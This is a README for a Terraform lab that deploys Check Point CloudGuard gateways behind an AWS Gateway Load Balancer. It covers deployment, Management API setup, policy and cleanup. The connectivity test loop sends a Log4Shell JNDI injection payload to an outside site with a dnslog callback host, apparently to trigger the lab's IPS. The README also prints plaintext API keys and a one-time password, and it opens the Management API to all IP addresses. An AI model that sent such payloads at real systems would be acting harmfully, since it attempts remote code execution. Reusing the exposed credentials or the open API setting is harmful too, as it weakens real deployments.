 # AWS lab with App spokes, TGW and CHKP VPC with CloudGuard Network Security behind GWLB

### Check Point Management SSH KEY pair

We are using existing AWS [SSH key pair](https://eu-west-1.console.aws.amazon.com/ec2/home?region=eu-west-1#KeyPairs:)

Please make sure SSH key pair exists and is referenced in `main.tf` under `cpman` module as `cpman_ssh_keypair` input variable. Default key pair name is `cpman`.

### Deploy with Terraform

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

# alias terraform
alias tf=terraform

# bring dependencies - providers, modules, ...
tf init

# bring credentials - e.g. export env vars: AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# review the code

# do credentials work?
tf plan -target module.env

# step by step deployment (to follow what was build in both code and AWS Console)

# network environment
tf apply -auto-approve -target module.env

# workloads in spokes accessible using SSM
#   used to initiate eggress and E-W traffic
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
#   shared VPC with securure Internet access and E-W inspection
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
#   deploy CGNS behind GWLB into Security (Inspection) VPC
tf apply -auto-approve -target module.cgns

# routing setup
#    route via CGNG thanks to GWLBe
tf apply -auto-approve -target module.routes

# or full deployment - one shot
tf apply -auto-approve

# CP management console
#   lets wait in CPMAN EC2 Instance serial console until ot is ready

# IP and creds for CPMAN cli access
MGMTIP=$(tf output -raw cpman_ip)
# for local Win machine Powershell? - assuming cpman private SSH key in home .ssh subfolder
echo ssh admin@$MGMTIP -i '$env:HOMEDRIVE$env:HOMEPATH/.ssh/cpman.pem'

# === MANAGEMENT CLI ===

### POLICY

# Login to Management server using SSH (above)

#   once Check Point Managemeng server is initialized => 
watch -d api status
# "API readiness test SUCCESSFUL"


# will manage using Check Point API service - allow any IP access (ok, for demo, be more specific in real world)
mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create dedicated api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key - api user credential
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json
# exit from CPMAN shell

# now we have following CPMAN information - take note for 51-tf-aws-policy terraform deployment
# management IP address
# manafement server API token - representing user "api"

# in GH workspace 
cd /workspaces/tf-aws-security-vpc-gwlb/51-tf-aws-policy
tf init
# use real values
tf plan -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA=='
# apply
tf apply -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA==' -auto-approve
# publish policy
tf apply -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA==' -auto-approve -var publish=true

# login to SmartConsole and make sure policy package gwlb-tf created by TF deployment exists before continuing

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private

# back at CPMAN cli using SSH:
# this is how CPMAN find instances to provide with policy and provision under Check Point Management
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po gwlb-tf -cn cpman -r eu-west-1 -iam -ver R81.20
# update template to enable IPS and Identity Awareness - DO IMMEDIATELY! (before instances are provisioned)
autoprov_cfg set template -tn gwlb-configuration -ia -ips
# check full setup
autoprov_cfg show all

# monitor CME finding and provisioning gateways
tail -f /var/log/CPcme/cme.log

# wait in SmartConsole for 3 instances to appear and have policy installed

```

### CONNECTIVITY FROM SPOKE INSTANCES

Use SSM (Session Manager) to access Spoke A and Spoke B hosts

```shell
#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


```

![E-W and Egress logs](./img/logs.png)

### Cleanup - remove lab resources from AWS


``` shell
cd /workspaces/tf-aws-security-vpc-gwlb/50-aws-tgw-chkp-vpc
# remove - one by one
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

# OR one shot
tf destroy -auto-approve
```

References:
* Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
    * Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg
